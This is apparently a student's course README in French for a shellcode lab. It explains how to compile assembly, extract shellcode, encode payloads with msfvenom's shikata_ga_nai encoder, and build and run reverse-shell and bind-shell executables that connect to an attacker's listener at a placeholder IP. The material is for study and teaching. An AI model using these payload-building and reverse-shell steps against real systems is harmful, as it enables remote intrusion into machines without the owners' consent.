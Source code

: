 # SecuriteShellcode

Activités du cours SecuriteShellcode

BELLEIL Clément - ING3 CYBERSECURITE GROUPE A

# Compilation et Execution

Compilation :   - se placer dans le dossier asm32 ou asm64 ET ./build.sh asm01 par exemple

Execution :     - ./asm01

# Création de shellcode

Après compilation du programme :

Création de shellcode : ./create_shellcode {asm32 OU asm64} {asm01,...}

# Msfvenom - création de shellcodes (exemple pour asm32/asm01)

Compilation : nasm -f bin -o asm01.bin asm01.s                                                 
Création du payload : msfvenom -e x86/shikata_ga_nai -f c -a x86 -o asm01_x86.shellcode --platform linux < asm01.bin

# Msfvenom - création de l'executable pour reverseshell

Création de l'executable : ./revshell_x86.sh <IP_ECOUTE> <PORT_ECOUTE> (ou IP_ECOUTE et PORT_ECOUTE sont les informations renseignées en option du listener msf

Execution : chmod +x revshell_x86.elf && ./revshell_x86.elf (une fois que l'écoute dans la msfconsole de l'attaquant est lancée)

# Msfvenom - création de l'executable pour bindshell

Création de l'exécutable : ./bindshell_x86.sh <IP_CIBLE> <PORT_ECOUTE> (ou IP_CIBLE et PORT_ECOUTE sont les informations renseignées en option du listener msf

Execution : chmod +x bindshell_x86.elf && ./bindshell_x86.elf (une fois que l'écoute dans la msfconsole de l'attaquant est lancée)
